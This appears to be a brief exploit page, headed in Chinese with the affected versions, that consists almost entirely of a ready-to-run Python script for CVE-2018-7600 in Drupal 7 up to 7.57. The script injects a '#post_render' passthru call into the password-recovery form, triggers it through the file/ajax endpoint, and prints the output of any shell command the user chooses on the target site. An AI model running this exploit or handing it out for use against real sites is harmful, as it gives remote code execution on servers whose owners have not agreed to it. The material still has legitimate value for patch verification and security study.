 影響版本
--------

DRUPAL 7 \<= 7.57

EXP
---

    #!/usr/bin/env python3

    import requests
    import argparse
    from bs4 import BeautifulSoup

    def get_args():
      parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7600.py",
                        formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                        epilog= '''
                        This script will exploit the (CVE-2018-7600) vulnerability in Drupal 7 <= 7.57
                        by poisoning the recover password form (user/password) and triggering it with
                        the upload file via ajax (/file/ajax).
                        ''')
      parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
      parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
      parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
      parser.add_argument("-p", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
      args = parser.parse_args()
      return args

    def pwn_target(target, function, command, proxy):
      requests.packages.urllib3.disable_warnings()
      proxies = {'http': proxy, 'https': proxy}
      print('[*] Poisoning a form and including it in cache.')
      get_params = {'q':'user/password', 'name[#post_render][]':function, 'name[#type]':'markup', 'name[#markup]': command}
      post_params = {'form_id':'user_pass', '_triggering_element_name':'name', '_triggering_element_value':'', 'opz':'E-mail new Password'}
      r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
      soup = BeautifulSoup(r.text, "html.parser")
      try:
        form = soup.find('form', {'id': 'user-pass'})
        form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
        if form_build_id:
            print('[*] Poisoned form ID: ' + form_build_id)
            print('[*] Triggering exploit to execute: ' + command)
            get_params = {'q':'file/ajax/name/#value/' + form_build_id}
            post_params = {'form_build_id':form_build_id}
            r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
            parsed_result = r.text.split('[{"command":"settings"')[0]
            print(parsed_result)
      except:
        print("ERROR: Something went wrong.")
        raise

    def main():
      print ()
      print ('=============================================================================')
      print ('|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |')
      print ('|                              by pimps                                     |')
      print ('=============================================================================\n')

      args = get_args() # get the cl args
      pwn_target(args.target.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


    if __name__ == '__main__':
      main()